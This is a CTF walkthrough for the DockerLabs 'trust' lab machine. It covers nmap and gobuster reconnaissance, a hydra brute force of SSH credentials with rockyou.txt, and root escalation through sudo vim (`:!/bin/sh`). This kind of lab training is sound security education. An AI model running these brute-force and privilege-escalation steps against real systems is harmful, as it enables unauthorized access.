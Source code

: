 # Upload

{% embed url="https://dockerlabs.es/#/" %}

[🔗 DockerLabs.es](https://dockerlabs.es/#/)

&#x20;[🔗](https://dockerlabs.es/#/) [How to setup a Docker Image ](https://dockerlabs.es/assets/instrucciones\_de\_uso.pdf)

<details>

<summary>CTF BootToRoot</summary>

A **CTF** (Capture The Flag) **Boot To Root** (B2R) is a type of cybersecurity challenge where participants are tasked with gaining unauthorized access to a computer system (the "Boot" part) and then obtaining and eventually capturing a specific flag or set of flags (the "Root" part). The flags could be strings of text, files, or other data that prove the participant has successfully compromised the system.

In these challenges, participants typically start with minimal information about the target system and have to use various techniques, including vulnerability analysis, exploitation, privilege escalation, and more, to gain access and ultimately root access to the system. The challenges often simulate real-world scenarios and are designed to test participants' skills in penetration testing, exploit development, reverse engineering, and other cybersecurity domains. They can be hosted online or in-person as part of cybersecurity competitions, training events, or educational exercises.

</details>

## Task 1 - Deploy the machine

Install docker.io (if you do not already have it installed) -> `sudo apt install docker.io`

Download machine from DockerLabs website and setup lab:

* `unzip trust.zip`
* `sudo bash auto_deploy.sh trust.tar`

<div align="left">

<figure><img src="../.gitbook/assets/image (235).png" alt=""><figcaption></figcaption></figure>

</div>

and we obtained IP machine -> 🎯 Target IP: `172.17.0.2`

We can put the IP in the file to associate it with an easier to remember name:

<pre class="language-bash"><code class="lang-bash">su
<strong>echo "172.17.0.2 trust" >> /etc/hosts
</strong></code></pre>

Create a directory for machine on a dedicated folder and subdir containing: nmap,content,exploits,scripts

<pre class="language-bash"><code class="lang-bash"><strong>mkdir -p DockerLabs/trust
</strong>cd DockerLabs/trust
<strong>mkdir {nmap,content,exploits,scripts}
</strong><strong>
</strong># At the end of the Lab
CTRL + C #To stop running machine

<strong>sed -i '$ d' /etc/hosts # To clean up the last line from the /etc/hosts file
</strong><strong>
</strong># To repair potential problem during activities
sudo systemctl restart docker
sudo docker stop $(docker ps -q)
sudo docker container prune -force
</code></pre>

## Task 2 - Reconnaissance and Exploitation

I prefer to start recon by pinging the target, this allows us to check connectivity and get OS info.

```bash
ping -c 3 trust
PING trust (172.17.0.2) 56(84) bytes of data.
64 bytes from trust (172.17.0.2): icmp_seq=1 ttl=64 time=0.052 ms
64 bytes from trust (172.17.0.2): icmp_seq=2 ttl=64 time=0.077 ms
64 bytes from trust (172.17.0.2): icmp_seq=3 ttl=64 time=0.048 ms
```

Sending these three ICMP packets, we see that the Time To Live (TTL) is \~64 secs. this indicates that the target is a \*nix system, while Windows systems usually have a TTL of 128 secs.

### 2.1 Ports in listening and relative services

Of course, we start looking for information about our target by scanning the open ports with the nmap tool

```bash
nmap -Pn -n -p0- trust
```

```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

There're two open port (22, 80), analyze them searching more info about services version and potential vulns:

```bash
nmap -A -sVC -p 22,80 trust -oN nmap/port_scan
```

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 19:a1:1a:42:fa:3a:9d:9a:0f:ea:91:7f:7e:db:a3:c7 (ECDSA)
|_  256 a6:fd:cf:45:a6:95:05:2c:58:10:73:8d:39:57:2b:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 2.6.32 (96%), Linux 3.2 - 4.9 (96%), Linux 4.15 - 5.8 (96%), Linux 2.6.32 - 3.10 (96%), Linux 5.0 - 5.5 (96%), Linux 3.4 - 3.10 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), Linux 2.6.32 - 2.6.35 (94%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

<table><thead><tr><th width="154.99999999999997">command</th><th>result</th></tr></thead><tbody><tr><td>sC</td><td>run default scripts</td></tr><tr><td>sV</td><td>enumerate versions</td></tr><tr><td>A</td><td>aggressive mode</td></tr><tr><td>Pn</td><td>no ping</td></tr><tr><td>oN</td><td>output to file with nmap formatting</td></tr></tbody></table>

As always we begin our exploration from port 80, where we know there is a web server, so we execute the whatweb command to extract more information and then view the content using the browser

```bash
whatweb http://trust
```

<figure><img src="../.gitbook/assets/image (250).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (236).png" alt=""><figcaption></figcaption></figure>

Let's display the default Apache page, try analysing the source page with CTRL+U

<figure><img src="../.gitbook/assets/image (240).png" alt=""><figcaption></figcaption></figure>

But we don't discover nothing of interisting.

### 2.2 Brute force hidden web directory

Now, we try to find potential hidden directory using gobuster:

```bash
gobuster dir -u http://trust -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```

<figure><img src="../.gitbook/assets/image (242).png" alt=""><figcaption></figcaption></figure>

We only find a useless 403 status code, so we try inserting web extensions (html, xml and php) with the -x flag:

```
gobuster dir -u http://trust -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x html,xml,php)
```

<figure><img src="../.gitbook/assets/image (243).png" alt=""><figcaption></figcaption></figure>

and finally we obtain two status code 200, the index.html is the homepage (that we just know), therefore we go to the secret.php

<figure><img src="../.gitbook/assets/image (244).png" alt=""><figcaption></figcaption></figure>

We find as info a potential username, remembering that port 22 (SSH) is open, not knowing the password we could try a brute force attack with hydra

### 2.3 Brute force ssh credentials

```bash
hydra -l mario -P /usr/share/wordlists/rockyou.txt trust ssh
```

<figure><img src="../.gitbook/assets/image (245).png" alt=""><figcaption></figcaption></figure>

Fantastic, we discovered the password, we use it to log in via SSH with the following command: `ssh mario@trust`

<figure><img src="../.gitbook/assets/image (246).png" alt=""><figcaption></figcaption></figure>

## Task 3 - Privilege Escalation

Now that we are inside, since we are not root user we need to elevate our privileges, so let's check the current permissions using `sudo -l`

<figure><img src="../.gitbook/assets/image (247).png" alt=""><figcaption></figcaption></figure>

We see that mario user has root permissions for /usr/bin/vim, then we can use [gtfobins](https://gtfobins.github.io/gtfobins/vim/) to find it.

{% embed url="https://gtfobins.github.io/gtfobins/vim/" %}

<figure><img src="../.gitbook/assets/image (248).png" alt=""><figcaption><p><a href="https://gtfobins.github.io/gtfobins/vim/">https://gtfobins.github.io/gtfobins/vim/</a></p></figcaption></figure>

using vim sudo command, we obtain a root permission `sudo vim -c ':!/bin/sh'`

<div align="left">

<figure><img src="../.gitbook/assets/image (249).png" alt=""><figcaption></figcaption></figure>

</div>
